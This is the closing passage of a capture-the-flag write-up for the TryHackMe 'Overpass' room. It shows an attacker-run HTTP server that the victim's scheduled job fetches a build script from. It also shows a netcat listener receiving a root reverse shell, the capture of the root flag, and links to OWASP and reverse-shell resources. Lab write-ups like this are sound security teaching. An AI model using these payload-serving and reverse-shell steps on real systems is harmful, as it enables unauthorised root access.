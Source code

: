 Within seconds, my listener began receiving a connection from the victim machine.
````bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
XX.XX.XX.2 - - [11/Feb/2025 19:35:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
XX.XX.XX.2 - - [11/Feb/2025 19:36:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
````
````bash
nc -nlvp 9999
listening on [any] 9999 ...
connect to [XX.XX.XX.XXX] from (UNKNOWN) [XX.XX.XX.X] 42572
bash: cannot set terminal process group (3273): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~#
````
With this connection established to the root user, I successfully retrieved the root flag.
````bash
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
thm{7f3*************d64ea753bb}
root@overpass-prod:~#
````
After submitting all the flags, I successfully solved the Overpass room!
![overpass-solved.png](Assets/Pictures/Overpass/overpass-solved.png)

## Happy hacking !
Here are some resources:
* [https://www.geeksforgeeks.org/broken-authentication-vulnerability/](https://www.geeksforgeeks.org/broken-authentication-vulnerability/)
* [https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/)
* [https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/](https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/)
* [https://owasp.org/API-Security/editions/2023/en/0xa3-broken-object-property-level-authorization/](https://owasp.org/API-Security/editions/2023/en/0xa3-broken-object-property-level-authorization/)
* [https://owasp.org/API-Security/editions/2023/en/0xa5-broken-function-level-authorization/](https://owasp.org/API-Security/editions/2023/en/0xa5-broken-function-level-authorization/)
* [https://benjugat.github.io/hackingnotes/web/broken-authentication/](https://benjugat.github.io/hackingnotes/web/broken-authentication/)
* [https://www.revshells.com/](https://www.revshells.com/)